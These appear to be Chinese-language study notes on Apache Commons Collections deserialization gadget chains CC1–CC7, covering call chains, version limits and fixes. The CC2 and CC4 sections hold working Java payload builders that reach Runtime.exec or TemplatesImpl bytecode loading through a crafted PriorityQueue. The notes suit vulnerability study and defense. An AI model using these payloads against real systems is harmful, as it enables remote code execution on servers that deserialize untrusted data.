




# 总结
## 调用链
sink点都是`transformer#transform`（`InvokerTransformer/InstantiateTransformer`)，区别就是kickoff不同

除了CC2、CC4外都是通过`lazyMap.get()`触发：

CC1/CC3通过AnnotationInvocationHandler#invoke
CC5通过TiedMapEntry#toString
CC6通过TiedMapEntry#hashCode
CC7通过Hashtable#reconstitutionPut -> lazyMap.equals

CC2/CC4通过 `PriorityQueue + transformingComparator`

## 版本依赖
### CC版本依赖
由于CC中`InvokerTransformer/InstantiateTransformer`高版本不可序列化，所有利用链要求`CC < 3.2.2 && CC < 4.1`

CC2/CC4只在4.0版本可用，3.x版本`transformingComparator`不可序列化，4.1版本后续的transformer又不可序列化了

其他的限制都是 `CC < 3.2.2 && CC < 4.1`

### JDK版本依赖
CC1/CC3 < JDK8u72, 后续AnnotationInvocationHandler不保留原始的memberValues，而是新建了一个LinkedHashMap并copy内容，导致内部lazyMap丢失

CC5 `> JDK7u45 && < JDK15 && System.getSecurityManager() == null`  由于BadAttributeValueExpException在高版本中toString之前检查val对象是否是String类型，低版本无readObject。无 SecurityManager才会toString

CC2/CC4/CC6/CC7不依赖JDK版本

像CC4用到`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`这些内部类的话，JDK9之后需要开放模块访问才能用

# CC1

## Gadget chain
```txt
    AnnotationInvocationHandler.readObject()
        Map(Proxy).entrySet()
            AnnotationInvocationHandler.invoke()
                LazyMap.get()
                    ChainedTransformer.transform() (sink)
```

## 原理
对象图：


这里涉及两个AnnotationInvocationHandler(AIH), 外层AIH反序列化执行 `memberValues.entrySet`，这个memberValues是我们构造的Proxy对象，handler是内层AIH，所以会执行innerAIH.invoke方法，从而执行到内层memberValues(`lazyMap`)的get方法


## 修复方案
低版本，直接重建AIH，memberValues还是我们构造的ProxyMap


高版本readObject时候，会把原来的memberValues(var4)键值对copy到新的LinkedHashMap（var7）。不再是原来的LazyMap


外层AIH执行到entrySet的时候还是原来的ProxyMap，entrySet进入innerAIH.invoke，但是内层的memberValues被替换成了LinkedHashMap


# CC3
cc1变体，把ChainedTransformer换成InstantiateTransformer

```java
final Transformer[] transformers = new Transformer[] {  
       new ConstantTransformer(TrAXFilter.class),  
       new InstantiateTransformer(  
             new Class[] { Templates.class },  
             new Object[] { templatesImpl } )};
```

# CC5
与CC1一样，同样是触发`lazyMap.get`

kickoff从`annotationInvocationHandler`改成`BadAttributeValueException -> TiedMapEntry#toString`

## 利用条件

## Gadget Chain
```txt
ObjectInputStream.readObject()
    BadAttributeValueExpException.readObject()
        TiedMapEntry.toString()
            LazyMap.get()
                ChainedTransformer.transform()
                    InvokerTransformer.transform()
```

# CC6

改成通过`TiedMapEntry#hashCode`触发
## Gadget Chain
```txt
java.util.HashSet.readObject()
    java.util.HashMap.put()
    java.util.HashMap.hash()
        org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
        org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
            org.apache.commons.collections.map.LazyMap.get()
```

# CC7

## Gadget Chain
```txt
java.util.Hashtable.readObject  
java.util.Hashtable.reconstitutionPut  
org.apache.commons.collections.map.AbstractMapDecorator.equals  (lazyMap.equals）
java.util.AbstractMap.equals  
org.apache.commons.collections.map.LazyMap.get
```

------------

以下是Commons-collections 4.0上的利用

# CC2

## 利用条件

cc == 4.0

## payload

```java
package payloads;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.ComparableComparator;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import utils.Reflection;
import utils.Serializer;

import java.util.PriorityQueue;

public class CC4 {
    public static Object getChainedTransformerFromCC4(String cmd){
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };
        return new ChainedTransformer(transformers);
    }
    public static Object getChainedTransformerFromCC4(){
        return getChainedTransformerFromCC4("calc");
    }

    public static void main(String[] args) throws Exception {
        ComparableComparator comparator = new ComparableComparator(); // simple comparator
        ChainedTransformer chainedTransformer = (ChainedTransformer) getChainedTransformerFromCC4();

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer, comparator);
//        transformingComparator.compare("whatever", "whatever"); 成功命令执行

        PriorityQueue queue = new PriorityQueue();

        Object[] innerArray = {"whatever", "whatever"};

        Reflection.setFieldValue(queue, "comparator", transformingComparator);
        Reflection.setFieldValue(queue, "queue", innerArray);
        Reflection.setFieldValue(queue, "size", 2);

        Serializer.serialize(queue);
    }
}
```

## 堆栈

```txt
PriorityQueue#readObject
	PriorityQueue#heapfy
		PriorityQueue#siftDownUsingComparator
			TransformingComparator#compare
				ChainedTransformer#transform
					InvokerTransformer#transform（sink)
```

```txt
at org.apache.commons.collections4.functors.ChainedTransformer.transform(ChainedTransformer.java:112)
at org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
```

## 原理

cc4.0给TransformingComparator添加了序列化接口，所以可以使用该链
TransformingComparator#compare方法会先对比较的两个对象调用transform，只要控制这里的transformer是我们的`chainedTransformer`即可


使用`PriorityQueue#readObject`调用到compare

## 修复方案

cc4.1直接取消了InvokerTransformer的Serializable接口, 序列化失败



# CC4

## 利用条件

CC == 4.0

## payload

```java
package payloads;

import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import utils.MyObjectFactory;
import utils.Reflection;
import utils.Serializer;

import javax.xml.transform.Templates;
import java.util.PriorityQueue;


public class CC4 {
    public static void main(String[] args) throws Exception {
        Templates templates = MyObjectFactory.getTemplatesImpl();
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
//        Object obj = instantiateTransformer.transform(TrAXFilter.class);  // 成功执行命令

        TransformingComparator transformingComparator =  new TransformingComparator(instantiateTransformer);
        PriorityQueue queue =  new PriorityQueue();

        Object[] innerArray = {TrAXFilter.class, TrAXFilter.class};

        Reflection.setFieldValue(queue, "size", 2);
        Reflection.setFieldValue(queue, "comparator", transformingComparator);
        Reflection.setFieldValue(queue, "queue", innerArray);

        Serializer.serialize(queue);
    }
}
```

## 堆栈
```
PriorityQueue#readObject
	PriorityQueue#heapfy
		PriorityQueue#siftDownUsingComparator
			TransformingComparator#compare
				InstantiateTransformer#transform (初始化任意类，参数可控)
					TrAXFilter constructor
						TemplateImpl#newTransformer (sink，加载字节码)
```

具体调用栈：

```txt
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.<init>(TrAXFilter.java:58)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at org.apache.commons.collections4.functors.InstantiateTransformer.transform(InstantiateTransformer.java:116)
at org.apache.commons.collections4.functors.InstantiateTransformer.transform(InstantiateTransformer.java:32)
at org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
```

## 原理

InstantiateTransformer的transform方法通过反射调用类的初始化函数，获得对应类的实例。要求类和对应的初始化方法必须为`pulibc`

所以我们可以达到初始化任意类，并且参数可控的效果。
根据[sink点](sink点#实例化任意类，参数可控)知道可以选用`TrAXFilter`类加载字节码并实例化

```java
public class CC4 {
    public static void main(String[] args) throws Exception {
        Templates templates = MyObjectFactory.getTemplatesImpl();
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        Object obj = instantiateTransformer.transform(TrAXFilter.class);  // 实例化TrAXFilter, 传入参数templates, 成功执行命令
    }
}
```

接下来就是触发transform，和CC2一样使用
`PriorityQueue->TransformingComparator#compare->transfrom`

## 修复方案

同CC2，去掉了InstantiateTransformer的Serializable接口

